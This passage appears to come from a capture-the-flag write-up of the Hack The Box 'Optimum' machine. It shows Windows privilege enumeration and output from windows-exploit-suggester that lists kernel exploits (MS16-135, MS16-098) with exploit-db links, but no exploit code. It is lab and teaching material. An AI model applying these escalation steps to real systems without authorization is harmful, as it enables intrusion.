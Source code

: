```powershell
                           [01]: Intel(R) 82574L Gigabit Network Connection                                                    
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
I will save this to a file and feed it to the `windows-exploit-suggester.py` to see if we can find any privesc path.

I will also look at the privileges assigned to our user and see if anything stands out

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users\kostas\Desktop>
```
Nothing much to see here. Back to `windows-exploit-suggester.py` , I see several path. I will test this out and see which one works.

```
┌─[✗]─[george@parrot]─[~/HTB/boxes/optimum/priv]                                                                               
└──╼ $ python windows-exploit-suggester.py --database 2023-10-16-mssb.xls --systeminfo systeminfo.txt                                  
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension                                                                   
[*] attempting to read from the systeminfo input file                                                                          
[+] systeminfo input file read successfully (utf-8)                                                                                                                                                                                                           
[*] querying database file for potential vulnerabilities                                                                       
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns                                                                                          
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin                                                                                                                                                                                            
[+] windows version identified as 'Windows 2012 R2 64-bit'                                                                     
[*]
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important                        
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255                                      
[*]                                                                                                                            
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
```